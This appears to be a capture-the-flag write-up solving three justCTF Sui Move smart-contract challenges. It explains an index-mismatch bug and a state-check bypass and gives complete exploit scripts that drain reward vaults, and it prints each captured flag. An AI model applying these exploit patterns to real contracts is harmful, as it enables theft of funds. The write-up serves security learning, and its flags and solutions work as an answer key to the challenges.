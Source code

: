 ```yaml
---
showFullContent: false
readingTime: true
---
```


## The Otter Scrolls

**[#1 The Otter Scrolls]**

To solve this level, we need to call the `cast_spell` function with the correct sequence of indices to set the `casted` attribute of the `Spellbook` to `true`. The function checks specific magic words in sequence: "Inferno" (fire), "Zephyr" (wind), "Call" (water), "Granite" (earth), and "Wazzup" (power).

We determined the indices for these words in their respective vectors and constructed the sequence `[1, 0, 3, 3, 3]`. This sequence corresponds to the required magic words in the correct order. By calling `cast_spell` with this sequence and verifying with `check_if_spell_casted`, we ensure the spell is successfully cast.


`solve.move` script:
```rust
module solve::solve {
    // [*] Import dependencies
    use challenge::theotterscrolls;
    public fun solve(
        _spellbook: &mut theotterscrolls::Spellbook,
        _ctx: &mut TxContext
    ) {
        // Your code here...
        let spell_sequence = vector[1, 0, 3, 3, 3];
        theotterscrolls::cast_spell(spell_sequence, _spellbook);
    }
}
```

```
Flag: justCTF{Th4t_sp3ll_looks_d4ngerous...keep_y0ur_distance}
```



## Dark BrOTTERhood

**[#2 Dark BrOTTERhood]**

To solve this level, we need to interact with the smart contract by calling several functions to register a player, equip them with a sword, find and fight monsters, get the rewards, and ultimately prove the solution.

The root cause of the problem is these lines in the `get_the_reward` function:
```javascript
    public fun get_the_reward(quest_id: u64, ...) {
        // check status with quest_id
        let quest_to_claim = vector::borrow_mut(&mut board.quests, quest_id);
        assert!(quest_to_claim.fight_status == FINISHED, WRONG_STATE);

        // but pop last index instead of quest_id
        let monster = vector::pop_back(&mut board.quests);
        ...
    }
```

The check is correctly performed against the quest_id, ensuring the fight_status is FINISHED. However, the pop_back function removes and returns the last element in the vector and the reward is mistakenly based on the last element of the vector rather than the quest at the quest_id index. This mismatch leads to inconsistencies and errors in the quest state management.


`solve.move`:
```javascript
module solve::solve {
    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER};
    use sui::random::Random;
    #[allow(lint(public_random))]
    public fun solve(
        _vault: &mut Otter::Vault<OTTER>,
        _questboard: &mut Otter::QuestBoard,
        _player: &mut Otter::Player,
        _r: &Random,
        _ctx: &mut TxContext,
    ) {
        // Your code here ...
        // buy sword and defead at least one monster
        Otter::buy_sword(_vault, _player, _ctx);
        Otter::find_a_monster(_questboard, _r, _ctx);
        Otter::fight_monster(_questboard, _player, 0);
        Otter::return_home(_questboard, 0);

        let times: u64 = 100;
        let mut i: u64 = 0;
        while (i < times) {
            // add new monster at the end of quest vector
            Otter::find_a_monster(_questboard, _r, _ctx);
            // use defeated monter quest_id to get reward
            Otter::get_the_reward(_vault, _questboard, _player, 0, _ctx);
            i = i + 1;
        };

        // but flag
        let flag = Otter::buy_flag(_vault, _player, _ctx);
        Otter::prove(_questboard, flag);
    }
}
```

```
Flag: justCTF{I_us3d_to_b3_an_ott3r_until_i_t00k_th4t_arr0w}
```


## World of Ottercraft

**[#3 World of Ottercraft]**

The vulnerability in this challenge stems from the fact that the get_the_reward function does not verify monster power before awarding the reward. Instead, it simply pops the monster from the vector and grants the reward. Here’s the relevant code from the get_the_reward function:


```javascript
public fun get_the_reward(vault: &mut Vault<OTTER>, board: &mut QuestBoard, player: &mut Player, ctx: &mut TxContext) {
    assert!(player.status != RESTING && player.status != PREPARE_FOR_TROUBLE && player.status != ON_ADVENTURE, WRONG_PLAYER_STATE);
    // pop monter
    let monster = vector::remove(&mut board.quests, player.quest_index);
    ...
    // get reward from vault
    let coins = coin::split(&mut vault.cash, reward, ctx); 
    ...
    // send reward to player
    balance::join(&mut player.wallet, balance);

    player.status = RESTING;
}
```

In contrast, the return_home function, which should be called before get_the_reward, includes a crucial check to ensure that the monster's power is zero (indicating the monster has been defeated):


```javascript
public fun return_home(board: &mut QuestBoard, player: &mut Player) {
    assert!(player.status != SHOPPING && player.status != FINISHED && player.status != RESTING && player.status != PREPARE_FOR_TROUBLE, WRONG_PLAYER_STATE);

    let quest_to_finish = vector::borrow(&board.quests, player.quest_index);
    assert!(quest_to_finish.power == 0, WRONG_AMOUNT);

    player.status = FINISHED;
}
```

Exploiting the Vulnerability

To exploit this vulnerability, we need to avoid calling return_home and directly call get_the_reward. This can be achieved if we can enter the get_the_reward function while the player's status is SHOPPING, which can be done by calling the enter_tavern function. The following sequence of operations allows us to repeatedly call get_the_reward without the necessary checks.

```javascript
module solve::solve {
    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER};
    public fun solve(
        _board: &mut Otter::QuestBoard,
        _vault: &mut Otter::Vault<OTTER>,
        _player: &mut Otter::Player,
        _ctx: &mut TxContext
    ) {
        // Your code here...
        // buy sword because we need to defeat monter to change state
        let mut ticket = Otter::enter_tavern(_player);
        Otter::buy_sword(_player, &mut ticket);
        Otter::checkout(ticket, _player, _ctx, _vault, _board);

        // add monter to vector so get_the_reward function can pop them later
        let num_quests: u64 = 24;
        let mut i: u64 = 0;
        while (i < num_quests) {
            Otter::find_a_monster(_board, _player);
            i = i + 1;
        };

        // continue scenario to reach RESTING status again
        Otter::bring_it_on(_board, _player, 0);
        Otter::return_home(_board, _player);
        Otter::get_the_reward(_vault, _board, _player, _ctx);

        // now we have full vector of monters we can set status to SHOPPING and loop over get_the_reward
        i = 0;
        while (i < num_quests - 1) {
            // enter SHOPPING status
            let mut shield_ticket = Otter::enter_tavern(_player);
            // buy something cheap just so we can checkout later
            Otter::buy_shield(_player, &mut shield_ticket);
            // enter get_the_reward in SHOPPING status and get reward without defeating monter
            Otter::get_the_reward(_vault, _board, _player, _ctx);
            // checkout because we need to use shield_ticket
            Otter::checkout(shield_ticket, _player, _ctx, _vault, _board);
            i = i + 1;
        };

        // buy flag
        let mut final_ticket = Otter::enter_tavern(_player);
        Otter::buy_flag(&mut final_ticket, _player);
        Otter::checkout(final_ticket, _player, _ctx, _vault, _board);
    }

}
```



```
Flag: justCTF{Ott3r_uses_expl0it_its_sup3r_eff3ctiv3}'
```


> Authors - [Mohammad Eminem](https://github.com/m-amini-sss)